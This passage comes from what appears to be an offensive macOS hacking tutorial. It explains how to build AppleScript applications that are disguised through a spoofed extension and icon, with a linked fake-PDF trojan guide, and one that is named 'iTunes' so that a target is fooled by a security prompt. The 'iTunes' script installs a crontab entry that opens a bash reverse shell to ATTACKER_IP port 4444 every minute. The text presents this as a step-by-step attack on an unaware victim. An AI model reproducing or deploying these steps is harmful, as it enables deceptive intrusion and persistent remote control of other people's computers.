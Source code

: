 Click on "File" in the menu bar, then "Export." Save the script using the "Application" file format. Then, [spoof the file extension  and icon](https://null-byte.wonderhowto.com/how-to/hacking-macos-create-fake-pdf-trojan-with-applescript-part-2-disguising-script-0184706/).

<img src="img/bypass-privileges-prompt03.gif" width="773"> 

### Create the Second ('iTunes') AppleScript

```applescript
do shell script "echo '* * * * *    bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' | crontab -"
```

Then, "Export" the second AppleScript using the "Application" format with the "iTunes" filename. This is the filename the target will see in the security notification. Save it into a directory of your choosing (e.g., `/tmp/pythonServer/`).

Don't worry about spoofing the file extension or icon here. The target won't see this file, it'll be downloaded and executed in the background.

![](img/bypass-privileges-prompt04.jpg)
